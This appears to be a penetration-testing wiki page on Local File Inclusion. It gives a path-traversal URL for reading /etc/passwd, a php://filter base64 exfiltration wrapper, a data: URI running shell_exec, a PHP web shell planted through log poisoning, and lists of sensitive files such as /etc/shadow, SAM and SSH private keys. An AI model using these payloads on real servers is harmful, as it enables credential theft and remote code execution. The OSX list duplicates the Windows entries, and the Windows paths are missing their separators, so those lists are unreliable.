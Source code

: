 # Local File Inclusion (LFI)

A local file inclusion (LFI) vulnerability is the process of including files that are locally present on the target server, through exploitation of vulnerable inclusion procedures implemented in the application.

Local file inclusion vulnerabilites occur when a page receives the path to the file that has to be included as input, which is not properly sanitized, allowing directory traversal characters to be injected.

### Examples

The most basic form of a exploiting a LFI vulnerability looks like the following:

```bash
https://mysecureserver.com/file.php?target=../../../../../etc/passwd
```

If we want to get a file,  it is best to base64 encode it. This will ensure that we can exfiltrate files rather than the server excuting the file. This can be accomplished with the following command:

```php
php://filter/convert.base64-encode/resource=$file
```

Additionally, the following command demonstrates  how we could execute code with the `shell_exec` function:

```bash
data:text/plain,<?php echo shell_exec("whoami") ?>
```

### Common Locations

This section lists common files to look for when testing for Local File Inclusion, I have linked additional lists in the 'References' section.&#x20;

#### Linux

```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root
```

#### Windows

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

#### OSX

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

### Remote Code Execution via LFI (Log Injection)

Log Injection / Log Poisoning is a technique used to obtain a reverse shell from a LFI vulnerability. In order to make this attack work, an attacker will attempt to inject a malicious payload into the server log.

* If we are able to access server logs such as `/var/log/apache2/access.log` we can modify our `User-Agent` to be a malicious payload which could result in us obtaining remote code execution.&#x20;

```php
# Sample PHP Payload
<?php system($_GET['c']); ?>
```

After injecting the payload, we can access it via the following URL:

```bash
https://$url/var/log/httpd&c=whoami
```

### Additional Notes

* Sometimes during Local File Inclusion, the web server may append something like `.php` or `.config` to the file. For example, including `/etc/passwd` may be rendered as `/etc/passwd.php`. This occurs when the include function uses a parameter like `?page` and concatenates the .php extension to the file. In versions of PHP below 5.3, ending the URL with a null byte (`%00`) will cause the interpreter to stop reading, this would then allow you to include and view the intended page.
* If you have identified LFI impacting a Linux host, you may be able to access the `.ssh/id_rsa` file of identified users. These are easily identified from reading the contents of the `/etc/passwd` file.&#x20;

### References

{% embed url="https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion" %}

